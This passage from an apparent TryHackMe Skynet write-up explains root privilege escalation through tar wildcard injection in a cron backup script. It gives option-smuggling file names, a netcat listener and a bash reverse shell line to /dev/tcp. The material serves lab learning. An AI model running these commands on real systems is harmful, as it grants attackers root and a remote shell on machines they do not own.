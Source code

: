 A job is running each minute and execute a script located at `/home/milesdyson/backups/backup.sh`. This script only compress (with **`tar`**) the content of `/var/www/html` with a **wildcard** using `sudo` rights.

```bash
cat /home/milesdyson/backups/backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Knowing that **`tar`** is part of the list of GTFObin, it should be easy to escalate to root.

- On the AttackBox, listen for connection
```bash
nc -lvnp 4445
```
- In the `/var/www/html` execute theses commands
```bash
echo '' > --checkpoint=1
echo '' > '--checkpoint-action=exec=sh revshell.sh'
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/<attackbox-ip>/4445 0>&1'" > revshell.sh # Modify the IP and may be the port number if you want to
```
- Wait a minute now

**Whats these commands actually do?**
- The first two `echo` commands create empty files with specific names that are used to exploit the `tar` command's checkpoint feature.
	- `--checkpoint=1`: This file represents the checkpoint number.
	- `--checkpoint-action=exec=sh revshell.sh`: This file specifies the action to be taken at the checkpoint, which is to execute the shell script `revshell.sh`.
- The third `echo` command creates a file named `revshell.sh` which contains the command to establish a reverse shell.

**Detailed explanation**
- The `tar` command has a checkpoint feature that lets you specify actions to be performed at regular intervals during archiving. This is useful for creating backups or other long-running operations.
- By creating files with specific names, you can manipulate the `tar` command to execute arbitrary commands. The `--checkpoint-action` option specifies the action to be taken at each checkpoint. In this case, it is set to execute a shell script (`revshell.sh`).
- When the `tar` command is executed with the checkpoint options, it reads the checkpoint files as option instead of files and executes the specified action (in this case, running the reverse shell script).

![](/assets/img/2025-07-30-THM-Skynet/root-privesc-shell.png)
And voilà!
